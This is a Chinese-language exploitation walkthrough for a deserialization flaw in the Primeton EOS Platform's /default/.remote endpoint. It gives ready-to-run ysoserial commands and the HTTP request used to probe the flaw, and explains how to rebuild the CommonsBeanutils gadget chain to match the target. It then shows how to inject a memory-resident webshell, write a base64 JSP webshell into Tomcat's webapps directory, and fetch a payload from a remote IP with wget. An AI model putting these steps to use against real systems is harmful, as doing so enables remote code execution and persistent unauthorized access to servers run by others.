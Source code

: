 普元Primeton EOS Platform反序列化漏洞
=============================

一、漏洞复现探测
--------

漏洞路由/.remote

```php
10.95.209.59:8080/default/.remote
```

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1678715932895-6cbfc483-ee25-449e-9fdf-b319a1e0ebaf.png)

1su18-探测反序列化利用链--选择使用全部类探测

<https://github.com/su18/ysoserial/>

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1680504556753-05154519-f0c2-4835-b60c-c2927063b191.png)

坑点注意--单引号生成的大小再windows里会小了3kb导致失败

```php
正确的双引号
java -jar ysuserial-0.9-su18-all.jar -g URLDNS -p "all:gbs.dnslog.pw" >dnslog2223.ser
失败的单引号
java -jar ysuserial-0.9-su18-all.jar -g URLDNS -p 'all:gbs.dnslog.pw' >dnslog2223.ser
```

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1686279213044-280cb5ec-d0d0-4253-ae2c-bedeff5c49dd.png)

```php
POST /default/.remote HTTP/1.1
Host: 10.95.209.59:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

```

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1678715933505-20c2be19-005e-4005-b875-ea08a3b65eac.png)

成功dnslog

![](https://cdn.nlark.com/yuque/0/2024/png/12959325/1706025739142-9a37996f-e0ad-4096-8db7-ad624b9b4605.png)

二、遇到的问题--serialVersionUID对应不上的问题
--------------------------------

没有延时并返回serialVersionUID对应不上的问题

serialVersionUID = 2573799559215537819

```php
java -jar ysoserial-for-woodpecker-0.5.2-all.jar -g CommonsBeanutils1 -a "sleep:10" >CommonsBeanutils1.ser
```

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1678715935963-11165759-1a0f-4843-bf56-d76454088e50.png)

使用延时探测是否存在--可以看到报错

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1686279447600-024446a5-400a-47f3-a136-5cad411eba3b.png)

三、解决问题--魔改yso
-------------

gv7探测利用链--类的列表的两篇文章

<https://gv7.me/articles/2021/construct-java-detection-class-deserialization-gadget/#6-3-CommonsBeanutils>

<https://github.com/su18/ysoserial/>

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1678715934608-d44bb492-5f69-4f60-a496-6942507916b9.png)

原来的`ysoserial-for-woodpecker-0.5.2-all.jar`是cb1.9.2的

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1680616783041-05d1f53d-fb13-4f5b-b9b2-0e058fba840b.png)

查阅网上资料

<https://gv7.me/articles/2021/construct-java-detection-class-deserialization-gadget/#6-3-CommonsBeanutils>

发现当CommonsBeanutils版本1.7.0 &lt;= &lt;= 1.8.3的时候suid为2573799559215537819正好与目标环境对得上

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1678715936606-02ac35f7-ea20-48b6-af7a-da56fd5af247.png)

并通过延时探测org.apache.commons.beanutils.ConstructorUtils类是否存在

```php
java -jar ysoserial-for-woodpecker-0.5.2-all.jar -g FindClassByBomb -a "org.apache.commons.beanutils.ConstructorUtils|28" >suid.ser
```

成功延时

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1678715937080-a7a99615-e01a-4e7e-99e3-304a3b48c92d.png)

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1680509303908-671f09c2-dac7-4a00-9eb0-46e14b6658e4.png)

打包时报错

<https://class.imooc.com/course/qadetail/264587>

于是重新打包 ysoserial ，把依赖包 commons-beanutils修改为1.6版本对应到目标环境

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1686280115451-8589dd53-4825-4437-a2e4-c5dccf62c99a.png)

<https://www.runoob.com/maven/maven-setup.html>

随便下个zip去解压填进path就可以了

**配好maven环境**就去根目录重新执行下面命令

```php
MAVEN_HOME  
D:\apache-maven-3.6.1

path
%MAVEN_HOME%\bin
```

```php
mvn clean package -DskipTests
```

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1686280131109-cb7626e4-4372-4a5e-8335-dd9ffafe84ab.png)

重新使用cb1.6打包的yso延时探测

```php
java -jar ysoserial-for-woodpecker-0.5.3-all.jar -g CommonsBeanutils1 -a "sleep:10" >CommonsBeanutils1.ser
```

![](https://cdn.nlark.com/yuque/0/2024/png/12959325/1706025718627-bf4dcdfe-508b-4eb5-bd48-bc48d0568ebb.png)

四、漏洞利用-注入内存马和命令执行无回显写shell
--------------------------

注入内存马

成功

```php
java -jar ysoserial-for-woodpecker-0.5.3-all.jar -g CommonsBeanutils1 -a "class_file:gslFilterMemshellLoader.class" >gsl.ser
```

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1688212504442-7f009e9b-8eec-4bf8-a231-b91cfd299cc9.png)

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1686279741428-08f5a792-1697-4e6a-9f5e-274f87e479d3.png)

命令执行不出网写shell-如果不会打内存马或者打不成功，那最淳朴的方法就是命令执行--linux找web路径-命令执行echo写入webshell

```php
1 || for i in `find / -type d -name WEB-INF| xargs -I {} echo {}.txt`;do echo $i >$i;done
```

`linux_cmd`

```php
java -jar ysoserial-for-woodpecker-0.5.3-all.jar -g CommonsBeanutils1 -a "linux_cmd:1 || for i in `find / -type d -name WEB-INF| xargs -I {} echo {}.txt`;do echo $i >$i;done" >cmd.ser
```

<http://10.95.209.59:8080/examples/WEB-INF.txt>

/usr/local/apache-tomcat-8.5.83/webapps/examples/WEB-INF.txt

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1688212434559-d34fe95b-a7d5-458b-b8a3-0b73ec8ae855.png)

写shell

```php
java -jar ysoserial-for-woodpecker-0.5.3-all.jar -g CommonsBeanutils1 -a "linux_cmd:echo base64马子 | base64 -d >/usr/local/apache-tomcat-8.5.83/webapps/examples/gsl33.jsp" >cmd.ser
```

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1680513601435-42a7015d-7c87-4913-b07e-61329b67f9f8.png)

以上都是不出网的打法，当然也可以写cron计划任务不过执行两次命令就没必要了，出网的当然可以下马子直接上线就好--这里就不写了和以上的linux\_cmd方法一样

```php
wget http://ip/马子 -O /tmp/马子
```
